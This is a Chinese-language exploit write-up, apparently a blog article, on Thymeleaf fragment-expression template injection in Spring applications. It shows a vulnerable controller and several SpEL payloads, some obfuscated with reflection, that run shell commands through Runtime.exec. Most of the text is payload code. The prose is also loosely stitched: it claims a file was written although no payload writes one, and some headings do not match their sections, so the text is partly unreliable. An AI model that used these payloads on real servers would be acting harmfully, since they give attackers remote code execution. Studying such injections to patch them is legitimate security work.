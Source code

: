在前面提到 fragmentSpecExpression，这个其实后面对 fragment 的参数进行了解析，核心代码如下：

```
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return lang; //template path is tainted
}
```

```
${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}::x

*{new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}::x
```

基于此，可以构造如下 payload:「ps: 由于无法直接回显，所以可以用写文件形式」

```
${{new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}}::x

*{{new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}}::x
```

可看到文件已经成功写入。

![](https://mmbiz.qpic.cn/mmbiz_png/mVborIuoDabM1VW7xzYqibwErTxEDIDPkPcPtkCRBBtrgEDyfIYoIBPxRiaErSGO7puRWOy6DInYPice21PZB1mfA/640?wx_fmt=png)
---------------------------------------------------------------------------------------------------------------------------------------------

0x11 环境配置 (扩展）
--------------

看到大部分文章是这样配置的：

```
__${new java.util.Scanner(T(String).getClass().forName("java.lang.Runtime")
.getMethod("exec",T(String[])).invoke(T(String).getClass().forName("java.lang.Runtime")
.getMethod("getRuntime")
.invoke(T(String).getClass().forName("java.lang.Runtime")),new String[]{"/bin/bash","-c","id"})
.getInputStream()).next()}__::x
```

同样先正常访问看下响应内容：

![](https://mmbiz.qpic.cn/mmbiz_png/mVborIuoDabM1VW7xzYqibwErTxEDIDPk0oEAsjf6FcAey5Ur7ws1zC22C0lHMia7kYFdPMhnyP7iciauX9wicOaiayA/640?wx_fmt=png)

0x12 Fragment 注入通用 payload1
---------------------------

根据上面分析后，发现其实并不一定需要__${expr}__这种方式来包住 payload , 可以直接用 ${expr} 或者 ${{expr}} 都是可以的。

需要注意的是：除了 ${expr} 以及 ${{expr}} 可以被 Thymeleaf EL 引擎执行外，*{expr} 及 *{{expr}} 也同样可以。

payload1:

```
__${new java.util.Scanner(Class.forName("java.lang.Runtime")
.getMethod("exec",T(String[]))
.invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),new String[]{"/bin/bash","-c","id"})
.getInputStream()).next()}__::x
```
